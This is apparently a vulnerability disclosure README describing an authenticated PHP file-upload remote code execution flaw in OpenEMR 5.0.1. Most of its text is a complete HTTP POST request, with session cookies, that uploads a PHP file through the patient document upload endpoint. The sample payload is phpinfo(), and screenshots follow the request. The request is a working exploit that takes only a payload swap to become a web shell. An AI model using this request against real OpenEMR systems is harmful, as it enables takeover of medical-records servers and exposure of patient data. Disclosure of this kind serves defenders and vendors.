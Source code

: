 # OpenEMR Remote Code Execution Vulnerability
[OpenEMR 5.0.1](https://www.open-emr.org/) allows an authenticated attacker to upload and execute malicious php codes.

**Miscellaneous >> New Documents >> Patient Information >> Upload**

# CVE-2020-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]/controller.php?document&upload&patient_id=00&parent_id=4&' post request to upload malicious php codes.

```
POST /openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4& HTTP/1.1
Host: 172.16.155.140
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.155.140/openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4&
Content-Type: multipart/form-data; boundary=---------------------------141194333536146869123947219434
Content-Length: 842
Origin: http://172.16.155.140
DNT: 1
Connection: close
Cookie: OpenEMR=t1lugo5qrbhv7mc2c3q9ricsnl; TreeMenuBranchStatus=objTreeMenu_1_node_1_9; PHPSESSID=dfhapc4v0bskt7pcpmc2j93agq; LS-VQGNEIWNPEBSNBWE=6rm848pgjj78hhecpb9roo8af1; YII_CSRF_TOKEN=OWYyM0lybGFtRF9wcHRkZ1lldF9WblhoVHlVNk5HRW3WMnZhghJHNtBjyIuALM94Ww3gltGLoeKETBSfevfbCw%3D%3D
Upgrade-Insecure-Requests: 1

-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="MAX_FILE_SIZE"

64000000
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="file[]"; filename="shell_info.php"
Content-Type: text/php

<?php
phpinfo();
?>
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="destination"


-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="patient_id"

00
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="category_id"

4
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="process"

true
-----------------------------141194333536146869123947219434--

```

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_001.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_004.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_002.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_003.png)


